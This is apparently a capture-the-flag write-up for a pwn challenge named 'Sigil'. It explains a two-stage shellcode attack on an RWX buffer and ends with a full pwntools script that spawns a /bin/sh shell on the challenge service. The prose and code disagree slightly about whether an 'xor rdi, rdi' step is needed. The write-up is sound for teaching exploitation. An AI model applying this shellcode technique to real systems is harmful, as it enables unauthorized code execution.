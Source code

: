 # Sigil

The main funciton of sigil is below:
![Sigil main](sigil.png)

The following occurs:
* memory region is set to `read-write-execute` permissions
* read() of length 16 into that memory region
* call to the buffer just read

The gameplan for this exploit is to send an initial payload which will call `read()` into the `RWX` memory region. From here, we send the actual `/bin/sh` payload which will continue executing after our stage 1 payload.

We can call `read` via `syscall` to make this shellcode small. The following must be setup for this to work:
* rax - 0
* rdi - file descriptor to read from, i.e. stdin
* rsi - destination buffer
* rdx - 0x30 : Arbitrary length to read

The `rax` register is already set to `0` for our `read` syscall, so no modification needs to happen there. The `rdi` register needs to be a `0` in order to read from stdin, so a simple `xor rdi, rdi` will accomplish this for us. The destination buffer is already stored in the rdx register when our shellcode is run, which means we only need to execute a `mov rsi, rdx` in order to setup our destination buffer location. Lastly, we need to set a read length, and a simple `mov rdx, 0x30` will work.

The final stage 1 shellcode is below:
```
mov rsi, rdx' # rdx already contains our buffer location
mov edx, 0x30' # set our read length
add rsi, 10' # adjust our buffer a bit further down, so we don't overwrite our initial shellcode
syscall # Execute read
```

From here, we send a second shellcode containing our generic `/bin/sh` shellcode in order to receive our shell.

The full exploit is below:

```python
from pwn import * # pip install pwntools
context(arch='amd64')

HOST = '127.0.0.1'
PORT = 4444

# r = process('./sigil')
r = remote(HOST, PORT)

# Debug helper
"""
gdb.attach(r, '''
bp 40062a
c
''')
"""

"""
read() syscall
rax - 0
rdi - file descriptor to read from - 0 => stdin
rsi - destination buffer
rdx - length to read
"""

"""
rax is already 0 for syscall read
rdi is already 0
'xor rdi, rdi', # Read from stdin (file descriptor 0)
"""
shellcode = asm('\n'.join([
'mov rsi, rdx', # rdx already contains our buffer location
'mov edx, 0x30',
'add rsi, 10',
'syscall'
]))

# Ensure we send a full 16 byte Stage 1 payload.
shellcode = shellcode.rjust(16, '\x90')
log.info("Shellcode:[{}]  {}".format(len(shellcode), shellcode))

# Create second payload - simple /bin/sh payload
# Add a beginning nop sled, because why not?
log.info("Stage2: {}".format(shellcraft.sh()))
sc = asm(shellcraft.sh())
sc = sc.rjust(0x30, '\x90')
log.info("Stage2: {}".format(sc))

r.sendline(shellcode + sc)

r.interactive()

